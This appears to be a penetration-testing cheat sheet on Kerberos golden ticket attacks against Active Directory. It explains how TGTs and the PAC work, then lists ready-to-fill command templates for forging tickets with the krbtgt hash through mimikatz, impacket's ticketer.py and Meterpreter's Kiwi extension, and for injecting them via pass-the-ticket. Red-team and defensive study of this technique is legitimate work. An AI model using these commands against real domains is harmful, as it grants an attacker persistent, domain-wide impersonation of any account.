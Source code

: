 # Active Directory - Kerberos Golden Tickets

### Overview

`Kerberos` is an authentication protocol, used within Active Directory that
rely on the use of tickets to identify users and grant access to domain
resources. `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A `TGT` is generally requested by an user through a `KRB_AS_REQ` request to the
`AS` of the `KDC` during the login process on a Windows system integrated to an
Active Directory domain. `TGTs` are encrypted using one of the secrets
(`RC4 key`, whose value is identical to the `NTLM` hash, or `AES 128/256 bits
keys`) of the `krbtgt` account of the domain. After reception of the `TGT`,
in a `KRB_AS_REP` response from the `KDC`, `TGT` are stored in memory by the
client in the `Security Support Provider (SSP) Kerberos` of the `Local Security
Authority Server Service (LSASS)` process.

An user authentication data is stored encrypted (using one of the secrets of
the `krbtgt` account) in the `Privilege Attribute Certificate (PAC)` of the
`TGT` and includes:
  - The `Domain SID` and `User RID`, which combination form the user's current
  `Security Identifier (SID)`
  - the user's `SIDs` kept in its `SIDHistory` attribute
  - The `GROUP_MEMBERSHIP_ARRAY` which contains the user's group memberships,
  in the form of the groups `Relative ID (RID)`.

Whenever generating a `service ticket`, the `TGT`'s `PAC` will be decrypted by
the `KDC`, signed using both one of the secrets of the `krbtgt` account
(`KDC Signature`) and of the targeted service account (`Server Signature`), and
ultimately encrypted using one of the secrets the targeted service account.

`Golden tickets` are `TGT` forged with arbitrary authentication data. Indeed,
the specified username, groups `RID` and `SIDs` will be added to the forged
ticket `PAC`. The `golden ticket` can be injected in the current user session
and used to directly request `service tickets` from the `TGS`.

To generate a `golden ticket`, the following prerequisites are needed:
  - The fully qualified domain name and the `SID` of the targeted domain.
  - One of the secrets of the targeted domain `krbtgt` account. The `krbtgt`
  `RC4` key, corresponding to the `NTLM hash` of the `krbtgt` password, as
  well as the `AES 128/256 bits` keys can be used.

Note that while the user account specified for the `golden ticket` must be a
member of the targeted domain, the arbitrary SIDs added in the SID history of
the forged ticket (`ExtraSids` field of the `PAC`) can come from external
domains or forests (for which trusts relationships are configured).

### Golden tickets generation

The `mimikatz` `kerberos::golden` module and `impacket`'s `ticketer.py` can be
used to generate `golden tickets`.

The `golden ticket`'s:
  - `UserId` (impersonated user's `RID`) can be specified using (`mimikatz`)
    `/id` / (`ticketer.py`) `-user-id` `<USER_ID>` and defaults to `500`.

  - `GroupIds` (impersonated group memberships) can be specified using
    (`mimikatz`) `/groups` / (`ticketer.py`) `-groups`
    `<GROUP_RID | GROUP_RID1, ..., GROUP_RIDN>` and defaults to
    `513, 512, 520, 518, 519`.

  - `ExtraSids` (impersonated user's `SID History`) can be specified using
    (`mimikatz`) `/sids` / (`ticketer.py`) `-extra-sid`
    `<EXTRA_SID | EXTRA_SID1, ..., EXTRA_SIDN>`.

```
# Retrives the domain SID.
Get-ADDomain | Ft DNSRoot, DomainSID

# [Windows] Golden tickets generation using mimikatz.
# The generated ticket can be directly injected in the current session using the "/ptt" option.
# Otherwise the golden ticket is exported in the KRB_CRED format (KIRBI file on disk).
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> [/rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>] [/groups:<RID | RID_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>]

# [Linux / Windows] Golden tickets generation using ticketer.py.
# The generated ticket is exported in the credential cache (ccache) format.
ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> [-nthash <KRBTGT_NTLM> | -aesKey <KRBTGT_AES128 | KRBTGT_AES256>] <USERNAME>
ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> [-nthash <KRBTGT_NTLM> | -aesKey <KRBTGT_AES128 | KRBTGT_AES256>] -user-id <500 | USER_ID> -groups <GROUP_RID | GROUP_RID1, ..., GROUP_RIDN> -extra-sid <EXTRA_SID | EXTRA_SID1, ..., EXTRA_SIDN> <USERNAME>
```

###### mimikatz with Metasploit

`mimikatz` 2.0 is available in a `meterpreter` shell as the `Kiwi` extension.

To following command can be used to load the extension in memory on a
`meterpreter` shell: `use kiwi`

Once the module has been loaded, the `golden_ticket_create` command can be
used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the `kerberos_ticket_use` and
`kerberos_ticket_purge` commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Golden tickets usage (Pass-the-Ticket)

On Windows, `golden tickets` generated using `mimikatz` will be automatically
injected in the current logon session if the `/ptt` option is specified.
Otherwise, an exported `golden ticket` can be injected using
`mimikatz.exe "kerberos::ptt <TICKET_FILE_PATH>` for example.

On Linux, `golden tickets`, in the `credential cache (ccache)` format can be
exported in the `KRB5CCNAME` environment variable for further use through tools
supporting the `Kerberos` protocol, such as `Impacket` Python utilities.

Refer to the `[ActiveDirectory] Kerberos tickets usage` for more information on
techniques and tools to leverage `golden tickets`.
